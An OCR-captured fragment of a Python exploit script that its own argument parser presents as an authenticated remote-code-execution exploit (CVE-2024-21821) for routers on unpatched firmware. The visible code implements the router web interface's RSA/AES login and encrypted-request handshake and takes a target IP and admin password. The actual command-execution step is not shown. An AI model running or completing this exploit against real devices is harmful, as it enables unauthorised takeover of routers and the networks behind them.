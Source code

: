 ```python
        self.aes_iv = (str(time.time()) + str(random.random())).replace('.','')[0:AES.block_size].encode('utf-8')
        self.stok = ''
        self.session = requests.Session()
        self.session.headers.update({'User-Agent': 'Mozilla/5.0'})
        data = self.basic_request('/login?form=auth', {'operation':'read'})
        self.sign_rsa_n = int(data['data']['key'][0], 16)
        self.sign_rsa_e = int(data['data']['key'][1], 16)
        self.seq = data['data']['seq']
        data = self.basic_request('/login?form=keys', {'operation':'read'})
        self.password_rsa_n = int(data['data']['password'][0], 16)
        self.password_rsa_e = int(data['data']['password'][1], 16)
        self.stok = self.login()

    def aes_encrypt(self, k, iv, bs, pt):
        return AES.new(k, AES.MODE_CBC, iv=iv).encrypt(pad(pt, bs))

    def aes_decrypt(self, k, iv, bs, ct):
        return unpad(AES.new(k, AES.MODE_CBC, iv=iv).decrypt(ct), bs)

    def rsa_encrypt(self, n, e, pt):
        pk = RSA.construct((n, e))
        enc = PKCS1_v1_5.new(pk)
        block = int(pk.n.bit_length()/8) - 11
        out = b''
        for i in range(0, len(pt), block):
            out += enc.encrypt(pt[i:i+block])
        return out.hex()

    def basic_request(self, url, data, files={}):
        res = self.session.post(f'http://{self.target}/cgi-bin/luci/;stok={self.stok}{url}', data=data, files=files, timeout=5)
        return res.json()

    def encrypted_request(self, url, post_data):
        ser = urlencode(post_data).encode('utf-8')
        enc = base64.b64encode(self.aes_encrypt(self.aes_key, self.aes_iv, AES.block_size, ser))
        sig = ('k=%s&i=%s&h=%s&s=%d'.encode('utf-8')) % (self.aes_key, self.aes_iv, self.password_hash, self.seq+len(enc))
        enc_sig = self.rsa_encrypt(self.sign_rsa_n, self.sign_rsa_e, sig)
        r = self.session.post(f'http://{self.target}/cgi-bin/luci/;stok={self.stok}{url}', data={'sign':enc_sig, 'data':enc}, timeout=10)
        if r.status_code != 200:
            return None
        j = r.json()
        if 'data' not in j:
            return j
        dec = self.aes_decrypt(self.aes_key, self.aes_iv, AES.block_size, base64.b64decode(j['data']))
        return json.loads(dec)

    def login(self):
        pw = self.rsa_encrypt(self.password_rsa_n, self.password_rsa_e, self.password)
        j = self.encrypted_request('/login?form=login', {'operation':'login', 'password': pw})
        if not j or not j.get('success'):
            sys.exit(-1)
        return j['data']['stok']

if __name__ == '__main__':
    ap = argparse.ArgumentParser(description='CVE-2024-21821 (Authenticated RCE) — for unpatched firmware')
    ap.add_argument('-t', required=True, help='target IP')
    ap.add_argument('-p', required=True, help='admin password')
```